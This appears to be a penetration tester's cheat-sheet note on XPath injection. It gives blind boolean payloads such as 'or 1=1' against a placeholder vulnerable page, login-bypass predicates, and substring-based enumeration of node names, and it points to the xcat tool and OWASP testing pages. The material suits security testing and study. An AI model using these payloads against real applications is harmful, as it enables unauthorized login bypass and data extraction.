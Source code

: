 # Simple checks for vulnerable XPATH

### Check if there is any behavioral difference in the responses
```
You could use ' (apostrophe) or , (Comma)
```

Apostrophe used as string terminator

Comma used to break intergers, althorugh any character would work

```
http://<website>/vulnpage.php?countryID=a'
```

### Blind bolean injection
You can check if there is a valid injection by checking with commands if there is no error messages. You can check whenether you get a valid response back or not depending on if it's TRUE or FALSE
```
## TRUE 
http://<website>/vulnpage.php?countryID=999999 or 1=1
http://<website>/vulnpage.php?countryID=999999 or "2" or "2"
## FALSE
http://<website>/vulnpage.php?countryID=999999 or 1=2
http://<website>/vulnpage.php?countryID=999999 or "1"="2"
## Double or (to bypass when not nothing username and password is required)
//<someNode>[username='' or "1"="1" or "1"="1" and password='']
## Password injection parameter.
//<someNode>[username='' and password='' or "1"="1"]
```

### Finding Root Node Identifier
Enumerate one character at a time with this technique.
If you get a **TRUE** condition you know the first character is *b*

```bash
' or substring(name(/*[1]),1,1)='a
' or substring(name(/*[1]),1,1)='b
' or substring(name(/*[1]),2,1)='a
```

After enumerating you get **users**
### Finding first child node name
Enumerate one character at a time with this technique.
If you get a **TRUE** condition you know the first character is *b*

```bash
' or substring(name(/users/*),1,1)='a
' or substring(name(/users/*),1,1)='b
' or substring(name(/users/*),2,1)='b
```
# Enumerate Blind Bolean injections with xcat
You can see here how to use xcat (Tool for injection auto blind bolean to extract) 

[[Xcat]]

XPath Blind Explorer // https://code.google.com/archive/p/xpath-blind-explorer/

### Useful XPath statements
![[Pasted image 20220217090452.png]]

## Resources
https://wiki.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010)

https://owasp.org/www-community/attacks/Blind_XPath_Injection
